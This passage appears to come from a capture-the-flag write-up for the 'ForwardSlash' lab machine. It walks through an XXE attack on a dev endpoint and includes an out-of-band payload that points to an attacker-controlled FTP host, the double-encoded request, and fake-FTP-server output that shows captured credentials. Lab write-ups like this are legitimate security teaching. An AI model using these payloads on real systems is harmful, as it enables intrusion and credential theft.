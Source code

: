 ```xml
<?xml version="1.0" ?>
<!DOCTYPE replace [<!ENTITY xxe "noraj">]>
<api>
  <request>&xxe;</request>
</api>
```

So I tried to send something like that:

```
url=http://backup.forwardslash.htb/dev/index.php?xml%3d<?xml%20version%3d"1.0"%20?><!DOCTYPE%20replace%20[<!ENTITY%20xxe%20"noraj">]><api>%20%20<request>%26xxe;</request></api>
```

But this doesn't work. But let's remember the FTP hint!

Maybe the XXE is OOB (Out Of Band) only. In general, working with FTP for OOB is far better
than HTTP as it wil allows us to retrieve the whole file rather than the 1st line.
Here I don't think we will retrieve files but rather credentials as it's said there
is a FTP autologin feature. So we won't need a complex payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "ftp://10.10.15.32/"> %ext;
]>
<api>
  <request>
    dontcare
  </request>
</api>
```

Our payload will look like this:

```
url=http://backup.forwardslash.htb/dev/index.php?xml%3d<%3fxml%2520version%253d"1.0"%2520%3f><!DOCTYPE%2520root%2520[<!ENTITY%2520%25%2520ext%2520SYSTEM%2520"ftp%3a//10.10.15.32/">%2520%25ext%3b]><api><request>dontcare</request></api>
```

PS: even if [burp][burp] automatically URL encode key character for us we need to double
encore the key character in the xml payload for the request to work.

But before let's start [xxeserv][xxeserv], a fake FTP server, then, when submitting the request we
will receive the credentials:

```
$ sudo xxeserv -p 21
[*] UNO Listening...
2020/07/05 19:32:51 [*] GO XXE FTP Server - Port:  21
2020/07/05 19:32:55 [*] Connection Accepted from [10.10.10.183:50146]
USER:  chiv
PASS:  N0bodyL1kesBack/
2020/07/05 19:32:55 [x] Connection Closed
2020/07/05 19:32:55 [*] Closing FTP Connection
```

